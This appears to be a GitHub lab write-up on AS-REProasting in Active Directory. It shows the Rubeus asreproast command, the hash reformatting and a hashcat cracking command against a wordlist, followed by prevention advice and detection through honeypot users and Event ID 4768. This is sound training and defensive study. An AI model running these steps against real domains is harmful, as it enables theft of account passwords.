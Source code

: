 # AS-REProasting Lab

## Objective

Perform a AS-REProasting attack on the Windows 10 machine and obtain crackable hashes, find the user account 'svc-iam' then crack password on Kali Linux.
Connect to DC1 and investigate Event Manager to find the attack. 

## What is Kerberoasting

The AS-REProasting attack is similar to the Kerberoasting attack; we can obtain crackable hashes for user accounts that have the property Do not require Kerberos preauthentication enabled. The success of this attack depends on the strength of the user account password that we will crack.

## Skills Learned
- Run a AS-REProasting attack
- Filtering the Windows Event Viewer logs
- Cracking spn.txt files with Hashcat

## Tools Used
- Windows Event Log
- Hashcat
- Rubeus
- Kali Linux

## Steps

First we need to RDP over to our WIN10 machine and perform the AS-REProasting attack. I will be using Rubeus for this attack.

```
xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution
xfreerdp /u:(username) /p:(password) /v:(Machine IP) /dynamic-resolution /drive:share,/home/XXXXXXX
```

Next we need to open up a command prompt and CD to our downloads folder where the file we need to run in located.

```
cd C:\Users\bob\Downloads
```

```
.\Rubeus.exe asreproast /outfile:asrep.txt
```
![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/97415255-a4d8-4b43-b6ed-4fd0857a0fae)

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f99d943e-91bd-447b-8f93-347f72ebe310)

Now we have our file to crack we need to get this file back over to our Kali box. 

For hashcat to be able to recognize the hash, we need to edit it by adding 23$ after $krb5asrep$ we can edit the file usim Vim on the kali command line. 

```
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/962602f8-05a3-455e-b311-ea4664341b78)

We can now run this file trough hashcat

```
sudo hashcat -m 18200 -a 0 asrep.txt /usr/share/wordlists/rockyou.txt --outfile asrepcrack.txt --force
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/465e6765-7ec9-4287-8cc7-d2c897dc1225)

Once hashcat cracks the password, we can print the contents of the output file to obtain the cleartext password

```
sudo cat asrepcrack.txt
```

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/f611dd48-cad7-4cae-9ec0-f8810a76f226)


## Prevention

The success of attacks on users with "Do not require Kerberos preauthentication" depends on password strength. This property should be used only when necessary, and accounts should be reviewed quarterly to ensure it isn't improperly assigned. Regular user accounts with this property often have weaker passwords, making them easier targets than service accounts with SPNs. To protect these users, a separate password policy requiring at least 20 characters should be enforced to prevent cracking attempts.

## Detection

### HoneyPot

A honeypot user is an effective detection tool in AD environments, as any login attempts for this unused account are likely malicious and warrant inspection. However, if it's the only account with "Kerberos Pre-Authentication not required," advanced threat actors might identify it as a honeypot and avoid it. To create an effective honeypot user, ensure the account is old and appears unused, with service account passwords ideally over two years old and regular user passwords less than one year old. The account should have logins after the password change and possess some privileges to make it an attractive target for attackers.

### Investigate

When we executed Rubeus, an Event with ID 4768 was generated, signaling that a Kerberos Authentication ticket was generated

![image](https://github.com/Matt4llan/Attack-Defense/assets/156334555/6a25dc6c-c2b1-421e-9927-d9e29cda4283)

AD generates this event for every Kerberos authentication, resulting in a high volume of logs. However, the source of authentication can be tracked, allowing correlation of known good logins against potential malicious activities. While inspecting specific IP addresses can be challenging, especially if users move between office locations, scrutinizing the specific VLAN and alerting on any deviations can be effective.


